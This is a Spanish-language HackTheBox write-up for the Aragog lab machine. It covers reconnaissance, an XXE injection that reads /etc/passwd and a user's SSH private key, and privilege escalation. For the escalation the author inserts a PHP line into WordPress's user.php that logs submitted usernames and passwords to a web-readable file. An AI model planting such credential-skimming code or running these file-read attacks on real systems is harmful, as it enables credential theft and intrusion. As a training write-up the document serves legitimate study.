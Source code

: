 ```yaml
---
layout: post
toc: true
title: "Aragog - HackTheBox Writeup"
categories: HackTheBox
tags: [CTF, Web]
author:
  - H4RRIZN
---
```


![logo](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cef48565b774e170c638c80c6cb99b6097d44298/_includes/CTFIMG/Aragog/aragog.png)

## Reconocimiento Inicial
Para comenzar realizamos un scan con nmap para detectar los puertos abiertos del host victima:   
```bash
nmap -sS --min-rate 1500 -p- --open -vv -n -Pn 10.10.10.78
```
![recon1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8f8206a4d207f45efa0aeb1b9552be086fd024b9/_includes/CTFIMG/Aragog/recon1.png)

Realizamos otro scan para detectar los servicios y versiones que se están utilizando en los puertos detectados:   
```bash
nmap -sCV -p21,22,80 10.10.10.78
```
![recon2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8f8206a4d207f45efa0aeb1b9552be086fd024b9/_includes/CTFIMG/Aragog/recon2.png)

Observamos que en el escaneo resultante podemos ingresar de forma anónima al FTP. Además de que en el servicio HTTP se esta redirigiendo hacia el dominio **`aragog.htb`** por lo que añadimos este al fichero hosts de nuestra maquina.
Al ingresar al servicio FTP podemos identificar el fichero **test.txt**. Lo descargare para visualizar su contenido:
![recon3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/2498b257aaf108a57daa4ece51c277937350b232/_includes/CTFIMG/Aragog/recon3.png)

Al ver el el contenido del fichero notamos que se asemeja al de la estructura XML. Además de contener una mascara de red en el detalle. De momento no tenemos un uso en particular para este fichero:    
![recon4](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/2498b257aaf108a57daa4ece51c277937350b232/_includes/CTFIMG/Aragog/recon4.png)

## Reconocimiento Web
Desde este punto al ingresar al servicio HTTP podemos ver una pagina por defecto del servidor de Apache:    
![recweb1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3244f0e7f4f571f89e90565c8374e2d79acade55/_includes/CTFIMG/Aragog/recweb1.png)

Generalmente los servidores Apache utilizan el lenguaje de programación PHP. 
Para realizar fuzzing de está extensión y encontrar posibles ficheros utilizare la herramienta **wfuzz**. Utilizaremos 2 payloads, uno para descubrir rutas y otro para mezclar estas rutas con las extensiones **`html`**,**`php`** y **`txt`**:     
```bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,html-php-txt -u http://aragog.htb/FUZZ.FUZ2Z -t 200
```

Observamos que se ha encontrado el fichero **`hosts.php`**:     
![recweb2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3244f0e7f4f571f89e90565c8374e2d79acade55/_includes/CTFIMG/Aragog/recweb2.png)

Ingresamos a este mediante el navegador y podemos ver el mensaje de “**`There are 4294967294 possible hosts for`**”
![recweb3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3244f0e7f4f571f89e90565c8374e2d79acade55/_includes/CTFIMG/Aragog/recweb3.png)

### Detectando XXE
Algo que podemos probar con el fichero descargado desde el servidor FTP es enviarlo como data al servidor HTTP.
Podemos realizar esto con curl:    
![xxe1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/14979102197472ca0c791cee5826d7ce5fe3e184/_includes/CTFIMG/Aragog/xxe1.png)

Y como vemos nos entrega un resultado distinto. Con esto podemos pensar que el script **`host.php`** sirve como una calculadora de subredes. Podemos enviarlo directamente en BurpSuite cambiando la IP para probar si realiza la misma operación y nos entrega un resultado distinto:    
![xxe2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/14979102197472ca0c791cee5826d7ce5fe3e184/_includes/CTFIMG/Aragog/xxe2.png)

Y vemos que efectivamente no solo nos entrega un resultado distinto para la mascara si no que además esta interpretando el contenido del fichero en formato XML.
Desde este punto podemos intentar realizar una inyección XXE básica para recuperar algún fichero interno de la maquina como seria el fichero **`/etc/passwd`**         
![xxe3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/14979102197472ca0c791cee5826d7ce5fe3e184/_includes/CTFIMG/Aragog/xxe3.png)
Y tenemos la capacidad de realizar una inyección XXE.
## Shell as Florian
Ya que la vulnerabilidad esta confirmada podemos intentar recuperar la llave **`id_rsa`** de alguna de los usuarios del sistema que cuentan con una bash. Para este caso en particular tenemos 3 usuarios: **`root`**, **`florian`** y **`cliff`**. Como puede ser obvio lo más seguro es que si intentamos recuperar la **`id_rsa`** del usuario root no podremos, por lo que veremos si podemos recuperar el **`id_rsa`** de **`florian`** o **`cliff`**.
En este caso no tenemos resultados con el usuario **`cliff`**:            
![shell1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/6aba1470d3e86959cc2419b57fda2331c817c4ef/_includes/CTFIMG/Aragog/shell1.png)

Pero con el usuario **`florian`** es un caso distinto y obtenemos una **`id_rsa`** que nos servirá para conectarnos a la maquina victima:      
![shell2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/6aba1470d3e86959cc2419b57fda2331c817c4ef/_includes/CTFIMG/Aragog/shell2.png)

Es importante que la llave **`id_rsa`** contenga los permisos necesarios para conectarnos por lo que debemos modificarlos con chmod:     
```bash
chmod 600 id_rsa
```
![shell3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/6aba1470d3e86959cc2419b57fda2331c817c4ef/_includes/CTFIMG/Aragog/shell3.png)
Ya tenemos acceso.

## Privesc
Para la escalada de privilegios utilice linpeas el cual revela ficheros que han sido modificados en los últimos 5 minutos los cuales corresponden a ficheros de WordPress ubicados en **`/var/www/dev_wiki`**:      
![privesc1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc1.png)

Al ingresar mediante el navegador observamos que efectivamente hay un wordpress ejecutandose:         
![privesc2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc2.png)

Llama la atención que los ficheros hayan sido modificados en los últimos 5 minutos por lo que utilizaremos la herramienta **`pspy`** para observar si se están ejecutando comandos que no podamos detectar:        
![privesc3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc3.png)

Observamos en el output de pspy que el grupo de procesos que se inicia cada cinco minutos llama a **`/root/restore.sh`**, lo que parece reiniciar el sitio de wordpress. Además de un fichero **`wp-login.py`** el cual está siendo ejecutado por el usuario **`cliff`**.
Con esto podemos llegar a conclusión de que se esta autenticando el usuario **`cliff`**. Como tenemos permisos de escritura en los ficheros del servidor de wordpress podemos intentar modificar alguno de estos para que al momento de que se realice la autenticación del mismo, escribir en un fichero aparte las credenciales ingresadas del usuario en cuestión. Esto lo podemos lograr modificando el fichero **`user.php`** en **`wp-includes`**:       
![privesc4](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc4.png)

Ahora incluimos el siguiente fragmento de código para depositar un fichero que llamaremos **`hijack.txt`** el cual contendrá por una parte **`log`** que corresponde al nombre de usuario y **`pwd`** el cual corresponde a la contraseña del mismo:      
```bash
file_put_contents("/var/www/html/dev_wiki/hijack.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```
![privesc5](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc5.png)

Ahora tocaría esperar a que los comandos se ejecuten y se deposite el fichero. Estaremos realizando una petición a este fichero de manera constante:     
```bash
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/hijack.txt
```
![privesc6](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc6.png)

Y luego de esperar un poco se almacenan credenciales para el usuario Administrator en el fichero hijack.txt:       
![privesc7](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc7.png)

Las reutilizaremos con el usuario **`cliff`**:         
![privesc8](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc8.png)

Y no funcionan. Las probamos con el usuario root:          
![privesc9](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/4afbddbe4818ca9be50dc016d5c86ae6e1e3e524/_includes/CTFIMG/Aragog/privesc9.png)

Y somos usuario root con el cual podremos leer las flags.

Pwned! 🏴‍☠️